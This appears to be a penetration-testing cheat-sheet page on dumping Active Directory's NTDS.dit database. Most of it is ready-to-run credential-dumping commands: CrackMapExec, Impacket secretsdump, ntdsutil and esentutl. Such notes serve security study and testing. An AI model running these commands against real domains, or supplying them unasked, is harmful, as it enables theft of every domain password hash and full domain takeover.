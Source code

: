 # NTDS

The NTDS.dit file (NTDS) is a database which stores confidential Active Directory information such as usernames, objects, groups, and password hashes. Once the NTDS.dit file has been retrieved, an attacker can effectively impersonate any member of the domain. This file is stored on domain controllers, meaning that full domain compromise has to occur in order to retrieve it.

### Exploitation

CrackMapExec and Impacket are  the easiest ways to remotely dump the NTDS.dit after Domain Administrator credentials have been obtained:

```bash
# CrackMapExec
crackmapexec smb -u $user -p $password -ntds 

# Impacket
impacket-secretsdump -just-dc-ntlm oasis/administrator@$dcip
```

Alternatively, [an attacker can dump the NTDS.dit manually](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration) if they have a shell on a Domain Controller:&#x20;

```bash
# Dump the NTDS
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

# Dump the password hashes offline 
impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local

# LOLBIN 
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\Windows\Tasks\ntds.dit
```

### References

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration" %}
